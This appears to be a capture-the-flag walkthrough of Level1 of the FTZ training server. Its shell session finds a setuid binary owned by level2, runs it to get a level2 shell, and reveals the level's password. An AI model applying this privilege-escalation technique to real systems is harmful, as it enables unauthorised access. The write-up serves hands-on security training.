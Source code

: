 # Level1

## This level's goal

- SetUID

***

`[level1@ftz level1]$ ls -l`  
total 12  
-rw-r--r--    1 root     root           47 Apr  4  2000 hint  
drwxr-xr-x    2 root     level1       4096 Dec  7  2003 public_html  
drwxrwxr-x    2 root     level1       4096 Jun  3 11:58 tmp  

`[level1@ftz level1]$ cat hint`  
Level2 권한에 setuid가 걸린 파일을 찾는다.

`[level1@ftz level1]$ find / -user level2 -perm -4000 2>/dev/null`  
/bin/ExecuteMe

`[level1@ftz level1]$ ls -l /bin/ExecuteMe`  
-rwsr-x---    1 level2   level1      12868 Aug 19  2014 /bin/ExecuteMe

`[level1@ftz level1]$ /bin/ExecuteMe`

`[level2@ftz level2]$ bash`

`[level2@ftz level2]$ my-pass`  
Level2 Password is "hacker or cracker".

